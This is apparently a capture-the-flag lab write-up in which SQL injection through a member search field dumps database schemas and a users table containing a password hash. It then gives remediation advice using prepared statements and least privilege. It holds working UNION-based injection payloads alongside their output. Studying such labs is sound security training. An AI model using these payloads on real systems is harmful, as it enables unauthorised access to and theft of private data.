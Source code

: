 # SQL Injection - User

We can inject SQL code into the search user id to access database content.

## How-To

1. Go to `/index.php?page=member`
1. Write in the search `input`

	```sql
	-- Sql Injection Detected
	1 OR 1=1
	```

1. Write in the search `input`

	```sql
	-- List Databases and Tables
	1 UNION SELECT 1, CONCAT_WS(CHAR(47), table_schema, table_name) FROM information_schema.tables

	-- Tables:
	--   information_schema
	--     ...
	--   Member_Brute_Force
	--     db_default
	--   Member_Sql_Injection
	--     users
	--   Member_guestbook
	--     guestbook
	--   Member_images
	--     list_images
	--   Member_survey
	--     vote_dbs
	```

1. Write in the search `input`

	```sql
	-- List Tables Columns
	1 UNION SELECT 1, CONCAT_WS(CHAR(47), table_schema, table_name, column_name) FROM information_schema.columns

	-- Tables:
	--   information_schema
	--     ...
	--   Member_Brute_Force
	--     db_default
	--       id
	--       username
	--       password
	--   Member_Sql_Injection
	--     users
	--       user_id
	--       first_name
	--       last_name
	--       town
	--       country
	--       Commentaire
	--       countersign
	--   Member_guestbook
	--     guestbook
	--       id_comment
	--       comment
	--       name
	--   Member_images
	--     list_images
	--       id
	--       url
	--       title
	--       comment
	--   Member_survey
	--     vote_dbs
	--       id_vote
	--       vote
	--       nb_vote
	--       subject
	```

1. Write in the search `input`

	```sql
	-- List Table Content
	1 UNION SELECT 1, CONCAT_WS(CHAR(47), user_id, first_name, last_name, town, country, Commentaire, countersign) FROM Member_Sql_Injection.users

	-- ...
	-- user_id: 5
	-- first_name: Flag
	-- last_name: GetThe
	-- town: 42
	-- country: 42
	-- Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
	-- countersign: 5ff9d0165b4f92b14994e5c685cdce28
	```

## Fix

- Do not use root-like user to execute database queries, use one only with specific access rights, we should not be able to access `information_schema`, or any other database than `Member_Sql_Injection`.
- Validate user input, and use prepared SQL query

	```php
	$id = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT, [
		'options': [
			'min_range' => 1
		]
	]);

	if ($id)
	{
		$stmt = $db->prepare("SELECT id, first_name, last_name FROM users WHERE id=:id");
		$stmt->bindParam(':id', $id, PDO::PARAM_INT);
		$stmt->execute();
		$user = $stmt->fetch();
		$stmt->closeCursor();

		// Do whatever with $user ...
	}
	```

## Details

- `information_schema` is an ANSI-standard set of read-only views that provide information about all of the tables, views, columns, and procedures in a database.

## Resources

- Owasp : [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- Wiki : [information_schema](https://en.wikipedia.org/wiki/Information_schema)
- MariaDB : [information_schema.tables](https://mariadb.com/kb/en/information-schema-tables-table/)
- MariaDB : [information_schema.columns](https://mariadb.com/kb/en/information-schema-columns-table/)
- MariaDB : [CONCAT_WS()](https://mariadb.com/kb/en/concat_ws/)
- MariaDB : [CHAR()](https://mariadb.com/kb/en/char/)
- PHP : [PDO](https://www.php.net/manual/fr/book.pdo.php)
- PHP : [filter_input()](https://www.php.net/manual/en/function.filter-input.php)
- Decrypt : [MD5 Decrypt](https://md5decrypt.net/)
- Encrypt : [Sha256 Encrypt](https://md5decrypt.net/en/Sha256/)

